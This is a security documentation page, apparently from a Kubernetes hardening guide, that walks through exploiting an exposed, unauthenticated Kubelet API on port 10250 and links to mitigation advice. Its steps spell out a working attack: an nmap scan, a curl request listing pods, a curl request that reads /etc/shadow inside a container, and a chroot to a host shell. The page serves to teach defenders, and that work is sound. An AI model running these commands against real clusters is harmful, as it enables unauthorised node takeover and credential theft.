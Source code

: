 ```yaml
---
sidebar_position: 5
title: "Exposed Kubelet API"
description: "How an exposed Kubelet API can be exploited to execute commands on nodes and compromise Kubernetes clusters."
---
```


# Exposed Kubelet API

The **Kubelet API** manages pods on individual nodes in a Kubernetes cluster. When left exposed and unauthenticated, it allows attackers to execute commands on containers or even the underlying host, putting the entire cluster at risk.

This article demonstrates how attackers discover and exploit insecure Kubelet APIs to gain remote control over nodes and escalate privileges.

---

## Exploitation Steps: Gaining Access to the Kubelet API

### 1. Scan for Exposed Kubelet Ports

Attackers scan the cluster’s IP range for open Kubelet ports (default: 10250):

```bash
nmap -p 10250 --open <cluster-ip-range>
```

### 2. Query the Kubelet API

If authentication is not required, the attacker lists all pods on the node:

```bash
curl -k https://<kubelet-ip>:10250/pods
```

This reveals metadata and container names that can be used for further exploitation.

### 3. Execute Commands in a Container

If unauthenticated access is allowed, the attacker can run arbitrary commands inside containers:

```bash
curl -k -X POST "https://<kubelet-ip>:10250/run/<namespace>/<pod-name>/<container-name>" -d 'cmd=cat /etc/shadow'
```

### 4. Escalate to the Host

If the container has access to the host filesystem, the attacker can escape the container and access the host:

```bash
curl -k -X POST "https://<kubelet-ip>:10250/run/default/root-container" -d 'cmd=chroot /host bash'
```

This effectively grants remote root shell access to the worker node.

---

### Result

Exposing the Kubelet API without authentication or access controls can lead to:

- Remote command execution inside pods
- Exposure of sensitive files and environment data
- Host-level access via container escape
- Full cluster compromise

---

## Mitigation

➡ [Kubelet Security](/docs/best_practices/cluster_setup_and_hardening/node_security/kubelet_security)
